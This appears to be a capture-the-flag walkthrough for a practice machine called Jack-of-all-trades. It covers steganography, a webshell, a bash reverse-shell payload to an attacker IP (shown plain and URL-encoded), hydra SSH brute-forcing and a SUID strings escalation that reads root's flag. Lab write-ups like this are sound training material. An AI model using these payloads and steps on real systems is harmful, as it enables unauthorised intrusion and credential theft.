






## Nmap: 
---
```bash
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- we can see that `SSH` is running on port `80` and `HTTP` on `22` 
- lets look at the `webserver` 
## Webserver: 
---
- to open up the site I used `Firefox`
- before we can view the `website`, we have to go to `about:config` in Firefox and then search for:  `network.security.ports.banned.override`
- then we select `String` and press on the `+` to input the port: `22` 


- after this, we can view the `site` 
- in the `source-code` at `http://10.114.181.66:22/` I found this comment: 
```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! --> 
<!-- UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```

- the `string` looks like `Base64`, so lets decode it: 
```bash
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: <Redacted>
```
- after I found this, i searched for `Johny Graves` and found this site: https://myspace.com/johny.graves 



- I also found this `string` in the `source-code` at `recovery.php`: 
```bash
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ
```

- lets decode it with `Johny Graves` favorite Crypto-Method: 
```bash
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- when we visit the link, we get to a `wikipedia` page about `Stegosauria` 
- then I remembered that there was a picture of an `Stegosauria` on the `homepage`: 


- so I used `steghide` with the password we found to get the hidden data: 
```bash
steghide extract -sf stego.jpg
```

- it worked and I got `creds.txt` out of it: 
```bash
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- so we are on the right path, but have to use `steghide` with a different image 
- so I tried using the `header`-image:


- and I got a file called `cms.creds` out of it: 
```bash
Here you go Jack. Good thing you thought ahead!

Username: <Redacted>
Password: <Redacted>
```

- I tried to use the `credentials` to login at `recovery.php` and it worked


## Reverse Shell: 
---
- I thought that this was a hint, that the `index.php` had a `cmd` `GET`-parameter, so I tried it: 


- so we have a `webshell`, lets try to get a `reverse-shell` 
- to do this, we first setup a listener with `netcat`: 
```bash
nc -lnvp 1234
```

- after this, we can create our `payload`: 
```bash
bash -c "/bin/bash -i >& /dev/tcp/[Attacker-IP]/1234 0>&1"
```

- but before I could use the `payload`, i had to `Url`-encode it: 
```bash
bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%5BAttacker-IP%5D%2F1234%200%3E%261%22
```

- so the final `url` was this: 
```bash
http://10.114.181.66:22/nnxhweOV/index.php?cmd=bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%5BAttacker-IP%5D%2F1234%200%3E%261%22
```
## user.txt: 
---
- after we got our `reverse-shell`, I looked through the system and found a password-list: 
```bash
www-data@jack-of-all-trades:/home$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

- lets use this to `bruteforce` we password of `jack`: 
```bash
hydra -l jack -P jacks_password_list -s 80 10.114.181.66 ssh 
```

```bash
[80][ssh] host: 10.114.181.66   login: jack   password: <Redacted>
```

- now we can login and look into `jacks` home-directory: 
```bash
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
```

- because `python3` was not installed, I used `scp` to download the `user.jpg`: 
```bash
scp -P 80 jack@10.114.181.66:/home/jack/user.jpg . 
```
- when we open up the image we see the `user.txt` 
## root.txt: 
---
- after I got the `user.txt`, I used `find` to retrieve all binary's with the `SUID` bit set: 
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

```bash
jack@jack-of-all-trades:~$find / -type f -perm -04000 -ls 2>/dev/null
135127  456 -rwsr-xr-x   1 root     root       464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
134730  288 -rwsr-xr--   1 root     messagebus   294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
135137   12 -rwsr-xr-x   1 root     root        10248 Apr 15  2015 /usr/lib/pt_chown
132828   44 -rwsr-xr-x   1 root     root        44464 Nov 20  2014 /usr/bin/chsh
132795   56 -rwsr-sr-x   1 daemon   daemon      55424 Sep 30  2014 /usr/bin/at
132826   56 -rwsr-xr-x   1 root     root        53616 Nov 20  2014 /usr/bin/chfn
133088   40 -rwsr-xr-x   1 root     root        39912 Nov 20  2014 /usr/bin/newgrp
133270   28 -rwsr-x---   1 root     dev         27536 Feb 25  2015 /usr/bin/strings
133273  148 -rwsr-xr-x   1 root     root       149568 Mar 12  2015 /usr/bin/sudo
133111   56 -rwsr-xr-x   1 root     root        54192 Nov 20  2014 /usr/bin/passwd
132940   76 -rwsr-xr-x   1 root     root        75376 Nov 20  2014 /usr/bin/gpasswd
133161   88 -rwsr-sr-x   1 root     mail        89248 Feb 11  2015 /usr/bin/procmail
138022 3052 -rwsr-xr-x   1 root     root      3124160 Feb 17  2015 /usr/sbin/exim4
    85   40 -rwsr-xr-x   1 root     root        40000 Mar 29  2015 /bin/mount
   131   28 -rwsr-xr-x   1 root     root        27416 Mar 29  2015 /bin/umount
   114   40 -rwsr-xr-x   1 root     root        40168 Nov 20  2014 /bin/su
```

- we can see that the command `strings` has the `SUID` bit set, so I went to `GTFOBins` and searched for it: 


- so I used `strings /root/root.txt` to get the root-flag: 
```bash
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{<Redacted>}
```